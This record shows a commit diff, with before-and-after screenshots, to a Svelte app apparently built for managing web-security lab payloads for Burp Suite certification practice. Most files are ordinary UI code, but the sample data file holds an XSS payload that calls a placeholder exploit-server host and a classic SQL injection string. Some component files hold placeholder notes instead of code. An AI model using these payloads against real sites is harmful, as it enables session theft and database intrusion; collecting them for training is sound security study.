

Before and after one commit to marcoris/bscp-payloadcollection, a Svelte app: page / in a window 1280 px wide. Shown: the top 354 px of the page, without its empty margins (158-1141 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add some svelte files and remove unused ones

```diff
--- a/package.json
+++ b/package.json
@@ -1,7 +1,7 @@
 {
-  "name": "my-payload-app",
+  "name": "bscp-payloadcollection",
   "private": true,
-  "version": "0.0.0",
+  "version": "1.0.0",
   "type": "module",
   "scripts": {
     "dev": "vite",
--- a/src/App.svelte
+++ b/src/App.svelte
@@ -0,0 +1,32 @@
+<script>
+    import { onMount } from 'svelte';
+    import { categoryStore, payloadStore } from './lib/stores.js';
+    import { categories } from './lib/categories.js';
+    import { payloads } from './lib/payloads.js';
+
+    import FilterBar from './components/FilterBar.svelte';
+    import PayloadGrid from './components/PayloadGrid.svelte';
+
+    onMount(() => {
+        categoryStore.set(categories);
+        payloadStore.set(payloads);
+    });
+</script>
+
+<main>
+    <h1>Burp Payload Manager</h1>
+    <FilterBar />
+    <PayloadGrid />
+</main>
+
+<style>
+    main {
+        max-width: 900px;
+        margin: 2rem auto;
+        padding: 1rem;
+    }
+    h1 {
+        text-align: center;
+        margin-bottom: 2rem;
+    }
+</style>
--- a/src/app.css
+++ b/src/app.css
@@ -0,0 +1,3 @@
+border-width: 3px;
+border-style: solid;
+border-image: linear-gradient(45deg, #f44336, #2196f3) 1;
--- /dev/null
+++ b/src/components/CategoryManager.svelte
@@ -0,0 +1,3 @@
+Inputfield: Name
+Inputfield: Color
+Button: Save => categoryStore
--- /dev/null
+++ b/src/components/FilterBar.svelte
@@ -0,0 +1,21 @@
+<script>
+    import { filterStore } from '../lib/stores.js';
+
+    let filter = '';
+    $: filterStore.set(filter);
+</script>
+
+<input
+        type="text"
+        placeholder="Filter payloads..."
+        bind:value={filter}
+/>
+
+<style>
+    input {
+        width: 100%;
+        padding: 0.5rem;
+        margin-bottom: 1rem;
+        font-size: 1.1rem;
+    }
+</style>
--- /dev/null
+++ b/src/components/PayloadCard.svelte
@@ -0,0 +1,64 @@
+<script>
+    export let p;
+    export let categories;
+
+    const preview = p.payload.slice(0, 50) + (p.payload.length > 50 ? '…' : '');
+
+    const levelColors = {
+        Apprentice: '#4caf50',
+        Practitioner: '#ff9800',
+        Expert: '#f44336'
+    };
+
+    $: catColors = p.categories.map(cid => {
+        let cat = categories.find(c => c.id === cid);
+        return cat?.color || '#ccc';
+    });
+
+    $: gradient = catColors.length > 1
+        ? `linear-gradient(45deg, ${catColors.join(', ')})`
+        : catColors[0] || '#ccc';
+</script>
+
+<div class="card" style="border-image: {gradient} 1;">
+    <div class="preview">{preview}</div>
+    <div class="level" style="background: {levelColors[p.level]}">{p.level}</div>
+    <div class="cats">
+        {#each p.categories as cid}
+      <span
+              class="cat"
+              style="background: {categories.find(c => c.id === cid)?.color}"
+      >
+        {categories.find(c => c.id === cid)?.name}
+      </span>
+        {/each}
+    </div>
+</div>
+
+<style>
+    .card {
+        border-width: 3px;
+        border-style: solid;
+        padding: 1rem;
+        border-radius: 8px;
+        margin-bottom: 1rem;
+    }
+    .level {
+        color: white;
+        padding: 0.3rem 0.5rem;
+        border-radius: 4px;
+        display: inline-block;
+        margin-top: 0.5rem;
+    }
+    .cats {
+        margin-top: 0.5rem;
+    }
+    .cat {
+        display: inline-block;
+        color: white;
+        padding: 0.2rem 0.5rem;
+        border-radius: 3px;
+        margin-right: 0.3rem;
+        font-size: 0.8rem;
+    }
+</style>
--- /dev/null
+++ b/src/components/PayloadEditor.svelte
@@ -0,0 +1,4 @@
+Inputfield: Payload
+Multiselect: Category
+Dropdown: Level
+Button: Save => payloadStore
--- /dev/null
+++ b/src/components/PayloadGrid.svelte
@@ -0,0 +1,31 @@
+<script>
+    import { payloadStore, filterStore, categoryStore } from '../lib/stores.js';
+    import PayloadCard from './PayloadCard.svelte';
+
+    let payloads = [];
+    let filter = '';
+    let categories = [];
+
+    $: payloadStore.subscribe(val => payloads = val);
+    $: filterStore.subscribe(val => filter = val);
+    $: categoryStore.subscribe(val => categories = val);
+
+    $: filteredPayloads = payloads.filter(p =>
+        p.payload.toLowerCase().includes(filter.toLowerCase()) ||
+        p.level.toLowerCase().includes(filter.toLowerCase())
+    );
+</script>
+
+<div class="grid">
+    {#each filteredPayloads as p}
+        <PayloadCard {p} {categories} />
+    {/each}
+</div>
+
+<style>
+    .grid {
+        display: grid;
+        grid-template-columns: repeat(auto-fill, minmax(300px, 1fr));
+        gap: 1rem;
+    }
+</style>
--- /dev/null
+++ b/src/lib/categories.js
@@ -0,0 +1,12 @@
+export const categories = [
+    {
+        id: 'xss',
+        name: 'XSS',
+        color: '#f44336'
+    },
+    {
+        id: 'sqli',
+        name: 'SQLi',
+        color: '#2196f3'
+    }
+];
--- /dev/null
+++ b/src/lib/payloads.js
@@ -0,0 +1,14 @@
+export const payloads = [
+    {
+        id: 'p1',
+        payload: "<script>fetch('https://{exploit_server}/{carlos}')</script>",
+        categories: ['xss', 'sqli'],
+        level: 'Practitioner'
+    },
+    {
+        id: 'p2',
+        payload: "' OR '1'='1",
+        categories: ['sqli'],
+        level: 'Apprentice'
+    }
+];
--- /dev/null
+++ b/src/lib/stores.js
@@ -0,0 +1,6 @@
+// src/lib/stores.js
+import { writable } from 'svelte/store';
+
+export const categoryStore = writable([]);
+export const payloadStore = writable([]);
+export const filterStore = writable('');
```
Also changed, not shown: src/lib/Counter.svelte (deleted), 1 other file (tests, documents, lock files or other folders).
